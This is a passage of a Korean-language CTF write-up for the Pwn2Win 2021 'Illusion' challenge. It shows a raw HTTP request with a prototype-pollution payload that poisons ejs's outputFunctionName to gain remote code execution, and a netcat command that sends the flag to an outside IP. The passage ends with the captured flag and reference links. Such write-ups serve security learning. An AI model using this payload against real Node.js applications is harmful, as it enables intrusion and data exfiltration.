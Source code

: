 ```
POST /change_status HTTP/1.1
Host: illusion.pwn2win.party:44211
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cXp0bG5mdXlzZXVxeWpmaQ==
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: _ga=GA1.2.687081227.1622238128; _gid=GA1.2.492571223.1622429990
Content-Type: application/json
Connection: close
Content-Length: 155

{
    "constructor/prototype/outputFunctionName": "_; process.mainModule.require('child_process').execSync('./readflag | nc 141.164.52.207 80');//"
}
```
그래서 위와 같이 값을 보내 `Prototype Pollution`을 이용해서 `outputFunctionName`의 값을 `value` 값으로 오염을 시켜주었다.


![](https://github.com/wjddnjs33/image/blob/main/prototype/flag.png?raw=true)

그리고 index 페이지로 접속을 하게 되면 `ejs.renderFile()` 메서드가 실행 될 때, 이미 `outputFunctionName`의 값이 js exploit code로 오염이 되어 있어 RCE가 발생해 플래그를 얻을 수 있었다.

> FLAG : CTF-BR{d0nt_miX_pr0totyPe_pol1ution_w1th_a_t3mplat3_3ng1nE!}

---
## Reference

[https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications)
[https://betterprogramming.pub/prototypes-in-javascript-5bba2990e04b](https://betterprogramming.pub/prototypes-in-javascript-5bba2990e04b)
[https://github.com/Starcounter-Jack/JSON-Patch/pull/262](https://github.com/Starcounter-Jack/JSON-Patch/pull/262)
[https://blog.p6.is/AST-Injection/](https://blog.p6.is/AST-Injection/)
[https://blog.effectrenan.com/pwn2win-2021-illusion-web-challenge/](https://blog.effectrenan.com/pwn2win-2021-illusion-web-challenge/)

---

